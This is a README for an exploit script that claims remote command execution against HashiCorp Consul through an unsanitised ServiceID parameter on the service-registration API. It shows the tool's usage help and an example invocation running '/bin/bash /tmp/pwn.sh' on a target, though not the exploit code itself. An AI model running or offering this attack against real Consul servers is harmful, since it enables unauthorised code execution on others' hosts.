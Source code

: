 ## Hashicorp Consul - Remote Command Execution via Services API

This script exploits a command injection vulnerability in Consul Api Services. The vulnerability exists in the `ServiceID` parameter of the `PUT /v1/agent/service/register` API endpoint. The `ServiceID` parameter is used to register a service with the Consul agent. The `ServiceID` parameter is not sanitized and allows for command injection. This vulnerability can be used to execute arbitrary commands on the host running the Consul agent.

### Usage

```
python3 consul_rce.py -h
usage: consul_rce.py [-h] -th TARGET_HOST -tp TARGET_PORT -c COMMAND [-s SSL] [-ct CONSUL_TOKEN]

optional arguments:
  -h, --help            show this help message and exit
  -th TARGET_HOST, --target_host TARGET_HOST
                        Target Host (REQUIRED)
  -tp TARGET_PORT, --target_port TARGET_PORT
                        Target Port (REQUIRED)
  -c COMMAND, --command COMMAND
                        Command to execute (REQUIRED)
  -s SSL, --ssl SSL     SSL
  -ct CONSUL_TOKEN, --consul-token CONSUL_TOKEN
                        Consul Token
```

### Example

```
python3 consul_rce.py -th 127.0.0.1 -tp 8500 -ct <CONSUL_TOKEN> -c "/bin/bash /tmp/pwn.sh"
```